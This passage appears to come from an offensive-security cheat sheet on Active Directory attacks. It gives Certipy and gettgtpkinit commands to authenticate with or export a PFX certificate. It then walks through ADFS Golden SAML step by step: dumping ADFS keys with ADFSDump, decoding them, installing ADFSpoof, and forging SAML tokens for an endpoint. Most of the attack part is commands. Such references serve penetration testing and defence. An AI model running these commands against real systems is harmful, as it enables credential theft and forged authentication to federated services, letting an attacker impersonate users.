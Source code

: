     # PFX certificate (file) + password (string, optionnal)
    gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
    
    # Using Certipy
    certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
    certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"
    ```
    

## Active Directory Federation Services

### ADFS - Golden SAML

**Requirements**:

- ADFS service account
- The private key (PFX with the decryption password)

**Exploitation**:

- Run [mandiant/ADFSDump](https://github.com/mandiant/ADFSDump) on AD FS server as the AD FS service account. It will query the Windows Internal Database (WID): `\\.\pipe\MICROSOFT##WID\tsql\query`
    
- Convert PFX and Private Key to binary format
    
    ```ps1
    # For the pfx
    echo AAAAAQAAAAAEE[...]Qla6 | base64 -d > EncryptedPfx.bin
    # For the private key
    echo f7404c7f[...]aabd8b | xxd -r -p > dkmKey.bin 
    ```
    
- Create the Golden SAML using [mandiant/ADFSpoof](https://github.com/mandiant/ADFSpoof), you might need to update the [dependencies](https://github.com/szymex73/ADFSpoof).
    
    ```ps1
    mkdir ADFSpoofTools
    cd $_
    git clone https://github.com/dmb2168/cryptography.git
    git clone https://github.com/mandiant/ADFSpoof.git 
    virtualenv3 venvADFSSpoof
    source venvADFSSpoof/bin/activate
    pip install lxml
    pip install signxml
    pip uninstall -y cryptography
    cd cryptography
    pip install -e .
    cd ../ADFSpoof
    pip install -r requirements.txt
    python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s adfs.pentest.lab saml2 --endpoint https://www.contoso.com/adfs/ls
